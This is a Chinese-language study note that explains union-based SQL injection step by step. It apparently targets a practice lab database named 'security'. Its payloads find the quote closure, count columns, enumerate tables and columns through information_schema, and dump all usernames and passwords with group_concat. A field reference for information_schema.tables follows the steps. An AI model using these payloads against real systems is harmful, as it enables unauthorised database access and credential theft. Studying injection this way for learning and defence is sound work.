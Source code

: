 ## 基本流程

目标：获取数据库中所有用户名和密码

1. 查找注入点

2. 判断字符型还是数字型----字符型

3. 字符型：找到闭合方式----可以通过单引号闭合 --+注释

4. group by 或者 order by 判断列数

5. 查询回显位 输入一个不存在的 id 使得无效信息不再显示 id=-1' union select 1,2,3--+ 显示 2, 3 说明回显位是 2，3

6. id=-1' union select 1,2,database() --+ 查看database名称拿到库名 security

7. version() 可以查看版本

8. 拿到表名和列名：information_schema数据库中有 columns：列名集合表 和 tables：表名集合表 两个表，通过 union select 1,2,table_name from information_schema.tables where table_schema='security'（甚至直接写 databases()）

9. 用 group_concat() 来显示所有 table_name：union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'  .  最终拿到表名 users

10. union select 1,version(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' 获取列名 **用数据库名和数据表名两个来定位所需要的列名** 得到 id username password

11. 回显 username 和 password：

12. ```sql
    union select 1,version(),group_concat(username,'%%%%%',password) from users
    ```



information_schema.tables 结构：

| 字段             | 含义                                  |
| ---------------- | ------------------------------------- |
| Table_catalog    | 数据表登记目录                        |
| **Table_schema** | 数据表所属的数据库名                  |
| **Table_name**   | 表名称                                |
| Table_type       | 表类型[system view\|base table]       |
| Engine           | 使用的数据库引擎[MyISAM\|CSV\|InnoDB] |
| Version          | 版本，默认值10                        |
| Row_format       | 行格式[Compact\|Dynamic\|Fixed]       |
| Table_rows       | 表里所存多少行数据                    |
| Avg_row_length   | 平均行长度                            |
| Data_length      | 数据长度                              |
| Max_data_length  | 最大数据长度                          |
| Index_length     | 索引长度                              |
| Data_free        | 空间碎片                              |
| Auto_increment   | 做自增主键的自动增量当前值            |
| Create_time      | 表的创建时间                          |
| Update_time      | 表的更新时间                          |
| Check_time       | 表的检查时间                          |
| Table_collation  | 表的字符校验编码集                    |
